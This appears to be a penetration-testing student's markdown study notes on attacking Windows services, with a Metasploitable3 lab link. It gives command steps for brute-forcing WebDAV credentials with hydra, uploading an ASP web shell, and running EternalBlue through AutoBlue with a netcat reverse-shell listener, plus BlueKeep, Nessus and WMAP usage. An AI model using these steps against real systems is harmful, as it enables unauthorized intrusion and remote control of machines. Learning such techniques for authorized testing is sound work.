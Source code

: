 # Windows Vulns

- Each Windows version have many vulns associate with.
    - Information disclosure: Access confidential data
    - Buffer overflows 
    - Remote code execute
    - Priviege escalation
    - DOS

## Frequently exploited
- SMB (share files and folder)
- IIS (80, 443) - Web server
- WebDAV (80, 443) - File server for web
- RDP (Remote desktop protocol) ~ 3389
- WinRM (Windows remote management) ~ 5986,443

## Vulns scanning
- `search type:exploit name:<service>` search for exploit for some service
    - Sunglass service
        `set payload windows/meterpreter/reverse_tcp`

- `searchsploit <service>` command - search in exploit db
    - smb has exploit `external blue` on Windows 7/8/sv 2008 R2
- Another db exploit that we can use is [db_autopwn](https://github.com/hahwul/metasploit-autopwn)
    - Download the rb script, move it to /usr/share/metaspl../plugins/
    - On `msfconsole` run `load db_autopwn`
- `analyze` command on `msfconsole - Analyze the host and find vulns

## WebDAV

IIS, web server, provide admin GUI for management. IIS supported exe file extensions:
- asp
- aspx
- config
- php

WebDAV, enable a web server to functions as a file server for collaborative
    - WebDav implements auth in the form of username and password.
    - First step of exploit is identify webDAV has been config to run on IIS server
    - After get the legit credential, we can login and upload a malicious .asp payload
    - Tools: `davtest`, `cadaver`

Exploit steps:
- `nmap -sV -p 80,443 --script=http-enum <target>` - simple check if server have webDAV 
- Brute force auth using `hydra -L <wordlists_user> -P <wordlists_pass> <target> http-get <webDAV URI path>`
- Other way `davtest -url <target>/webdav`
    - `davtest -auth <username:pass> ....` output what file we can upload or execute on the webDAV
- `cadaver <target>` -> Provide user and password -> Interact with shell
    - Use web shell in `/usr/share/webshells/asp/webshell.asp` ~ `put <path>`
    - Lauch the webshell by click on it

## External blue:

**Manual**
- WannaCry using this exploit to spreading ransomware
- Specific tool [Auto Blue](https://github.com/3ndG4me/AutoBlue-MS17-010)
    - Define LHOST and port -> Gen shell code
    - Setup netcat listener `nc -nvlp 1234`
    - `python externalblue_exploit7.py <target> <shellcode_path>/sc_x64.bin
    - Netcat will open remote sessions

**Automation:** We can using msf `exploit/ ... ms17_010_externalblue` -> meterpreter.

## BlueKeep - RDP Vulns

CVE-2019-0708

- `msf` exploit modules `cve_20..._bluekeep_rce`
    - Use `show targets` for display targets systems -> `set target <number>`
    - Sometimes Windows system will crash during the exploit


# Nessus

[Nessus Webpage](https://www.tenable.com/products/nessus)

[Lab enviroment](https://github.com/rapid7/metasploitable3)

- Download the free edition
- Change setting and + new scan -> target
- Nessus scan can be import into msf
    - `vulns -p 445` filter vuln for port 445
    - `search cve:<cve_id or year> name:<service>`

# WMAP

WMAP is web vulns scanner. WMAP is fully intergrated with MSF

- Open `msfconsole` -> `load wmap`
- `wmap_sites` Use to add, list and delelte, display site
    - `wmap -a <target>`
- `wmap_targets` add or changing target.
    - `wmap_targets -t <target_url>`
- `wmap_run` `-t` show available modules
    - `-e` Use all availabe modules
- `wmap_vulns -l` list vulns


- module `http_put` put or delete file on server
    - Set URI path Rhosts and run